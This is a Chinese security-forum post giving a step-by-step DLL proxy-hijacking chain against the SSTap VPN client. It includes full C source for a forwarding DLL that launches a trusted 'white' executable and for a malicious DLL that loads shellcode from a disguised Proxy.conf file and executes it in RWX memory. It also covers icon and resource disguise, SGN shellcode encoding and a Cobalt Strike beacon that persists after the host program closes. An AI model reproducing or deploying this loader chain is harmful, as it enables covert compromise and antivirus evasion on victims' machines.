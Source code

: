 

# 关于 DLL 转发劫持的思考 - 先知社区

关于 DLL 转发劫持的思考

- - -

发现很多网上都是直接劫持目标程序加载 DLL，直接转发 DLL 劫持，然后将 shellcode 写到劫持的那个 DLL 里面。

最终目标程序加载我们恶意 DLL 的时候成功上线。

那么我们思考一下，shellcode 写入到 dll 中肯定是被查杀的不用说。

那么我们能不能通过转发 dll 劫持去点击白程序，然后通过白程序去加载我们的恶意 dll 呢？

比如说我们现在有一个 sstap.exe 这个程序，这个程序是一个 VPN 软件，当执行它的时候会加载很多的 dll 文件。

那么我们通过 DLL 转发劫持，拿到一个新的 DLL 之后，在新的 DLL 中写入打开白程序的代码，通过白程序去加载黑 DLL。就算将 sstap.exe 退了，也不会导致我们的 beacon 下线。

如下图：

[![](assets/1706496780-6e4ba72d43ac0a26037b7989ac5512b1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240126094642-c181c392-bbec-1.png)  
那么我们来一步一步的实现，首先我们肯定先要做一个 DLL 转发劫持。

这里使用到 AheadLib 工具来做转发 DLL 劫持。

这里我们使用到的程序是 sstap.exe，当然你也可以使用其他的。

[![](assets/1706496780-4c7e761e9e2720684f132943a76c84ab.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240126094648-c4d1c31c-bbec-1.png)  
这里需要将原始 DLL 的名字更改一下这里，改成 libiconv2Help，其实也可以更改为其他名字，只要不是那么明显就好，点击生成即可。

生成代码如下：

```plain
////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////
// 头文件
#include <Windows.h>
////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////



////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////
// 导出函数
#pragma comment(linker, "/EXPORT:DllGetVersion=libiconv2Help.DllGetVersion,@1")
#pragma comment(linker, "/EXPORT:_libiconv_version=libiconv2Help._libiconv_version,@2")
#pragma comment(linker, "/EXPORT:libiconv=libiconv2Help.libiconv,@3")
#pragma comment(linker, "/EXPORT:libiconv_close=libiconv2Help.libiconv_close,@4")
#pragma comment(linker, "/EXPORT:libiconv_open=libiconv2Help.libiconv_open,@5")
#pragma comment(linker, "/EXPORT:libiconv_set_relocation_prefix=libiconv2Help.libiconv_set_relocation_prefix,@6")
#pragma comment(linker, "/EXPORT:libiconvctl=libiconv2Help.libiconvctl,@7")
#pragma comment(linker, "/EXPORT:libiconvlist=libiconv2Help.libiconvlist,@8")
#pragma comment(linker, "/EXPORT:locale_charset=libiconv2Help.locale_charset,@9")
////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////



////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////
// 入口函数
BOOL WINAPI DllMain(HMODULE hModule, DWORD dwReason, PVOID pvReserved)
{
    if (dwReason == DLL_PROCESS_ATTACH)
    {
        DisableThreadLibraryCalls(hModule);
    }
    else if (dwReason == DLL_PROCESS_DETACH)
    {
    }

    return TRUE;
}
////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////
```

现在我们来实现第二步，在 DLLMain 方法中需要通过创建一个线程去执行点击操作。

如下代码：可以看到这里通过 ShellExecute 函数去点击 updater.exe，也就是说我们去运行 sstap.exe 的时候他会加载 libiconv2.dll，而这个 dll 被我们转发劫持掉了，而转发的这个 dll 中写的就是点击 updater.exe，当点击 updater.exe 的时候他就会去加载黑 DLL 上线。

```plain
// 头文件
#include "pch.h"
#include <Windows.h>
#include <iostream>
#include <Windows.h>
#include <shlwapi.h>
#include <shlobj_core.h>
#pragma comment(lib, "Shlwapi.lib")
#include <ShellAPI.h>

// 导出函数
#pragma comment(linker, "/EXPORT:DllGetVersion=libiconv2Help.DllGetVersion,@1")
#pragma comment(linker, "/EXPORT:_libiconv_version=libiconv2Help._libiconv_version,@2")
#pragma comment(linker, "/EXPORT:libiconv=libiconv2Help.libiconv,@3")
#pragma comment(linker, "/EXPORT:libiconv_close=libiconv2Help.libiconv_close,@4")
#pragma comment(linker, "/EXPORT:libiconv_open=libiconv2Help.libiconv_open,@5")
#pragma comment(linker, "/EXPORT:libiconv_set_relocation_prefix=libiconv2Help.libiconv_set_relocation_prefix,@6")
#pragma comment(linker, "/EXPORT:libiconvctl=libiconv2Help.libiconvctl,@7")
#pragma comment(linker, "/EXPORT:libiconvlist=libiconv2Help.libiconvlist,@8")
#pragma comment(linker, "/EXPORT:locale_charset=libiconv2Help.locale_charset,@9")


DWORD WINAPI run(LPVOID lpParameter) {
    ShellExecute(NULL, L"open", L"updater.exe", NULL, NULL, SW_SHOW);
    return 0;
}

// 入口函数
BOOL WINAPI DllMain(HMODULE hModule, DWORD dwReason, PVOID pvReserved)
{
    if (dwReason == DLL_PROCESS_ATTACH)
    {
        CreateThread(NULL, 0, run, NULL, 0, NULL);
        DisableThreadLibraryCalls(hModule);

    }
    else if (dwReason == DLL_PROCESS_DETACH)
    {
    }

    return TRUE;
}
```

我们生成 DLL 之后通过 resource Hacker 去给他打上 kernel32.res 的资源。

[![](assets/1706496780-7ab6a0d8d9bbd5a7e5c7d240ac7b57aa.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240126094730-de25629c-bbec-1.png)  
然后我们将它拉入到 SSTAP 包中，更改名称为 libiconv2.dll 即可，然后将原始的 DLL 的名字更改为 libiconv2Help.dll 即可。

[![](assets/1706496780-71374187cc0d7cff811cdaa770e6fd23.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240126094736-e1ba78ca-bbec-1.png)  
然后我们需要白程序和黑 DLL 也拉进去。

这里黑 DLL 也是需要在导出函数中写你的 loader。

代码如下：需要注意的是这里我们读取的 Proxy.conf 文件，这个文件就是我们的 shellcode。

```plain
// dllmain.cpp : 定义 DLL 应用程序的入口点。
#include "pch.h"
#include <Windows.h>


extern "C" __declspec(dllexport) int error_output() {


    return 0;
}
extern "C" __declspec(dllexport) int dirutils_path_transform() {
     return 0;
}
extern "C" __declspec(dllexport) int autolog_init() {
     return 0;
}
extern "C" __declspec(dllexport) int error_output_check() {
    DWORD dwSize;
    DWORD dwReadSize;
    HANDLE hFileNew;
    hFileNew = CreateFile(L"Proxy.conf", GENERIC_ALL, FILE_SHARE_READ, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);

    if (hFileNew == INVALID_HANDLE_VALUE)
    {
        return 0;
    }

    dwSize = GetFileSize(hFileNew, NULL);

    void* exec = VirtualAlloc(0, dwSize, MEM_COMMIT, PAGE_EXECUTE_READWRITE);

    ReadFile(hFileNew, exec, dwSize, &dwReadSize, NULL);

    ((void(*)())exec)();
     return 0;
}


BOOL APIENTRY DllMain( HMODULE hModule,
                       DWORD  ul_reason_for_call,
                       LPVOID lpReserved
                     )
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:

    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
```

将白程序和黑 dll 以及 shellcode 放到 sstap 目录中，这里的白程序为了不引人注意，所以添加了 icon 图标，当然你也可以添加，其实也是通过 resource hacker 去添加的。

如下图：

[![](assets/1706496780-929545333dce7a94fc08c5b7ad8d75e8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240126094757-ede587ac-bbec-1.png)  
然后当我们去运行 sstap.exe 的时候如下：

```plain
sstap.exe 加载 libiconv2.dll -> libiconv2.dll 点击 updater.exe -> updater.exe 加载黑 DLL + 最后加载 shellcode
```

这里的 shellcode 可以通过 SGN 去加密即可。

当我们点击 sstap.exe 的时候，正常打开，如下图：

[![](assets/1706496780-3f2d7df565410aae875cae8086b287a0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240126094812-f737588a-bbec-1.png)  
然后我们来到 Cobalt Strike 这里可以看到已经上线了。

并且上线的并不是 sstap.exe，而是 updater.exe。

[![](assets/1706496780-a01b5f1fb3033cf8d42be62e78a61ef5.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240126094817-fa367f2a-bbec-1.png)  
当我们将 sstap.exe 退了之后会发现我们的 beacon.exe 是不会掉的。因为进程中跑的是 updater.exe。  
[![](assets/1706496780-bb14134a870e83a6917aca5aac536708.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240126094823-fd9bab54-bbec-1.png)

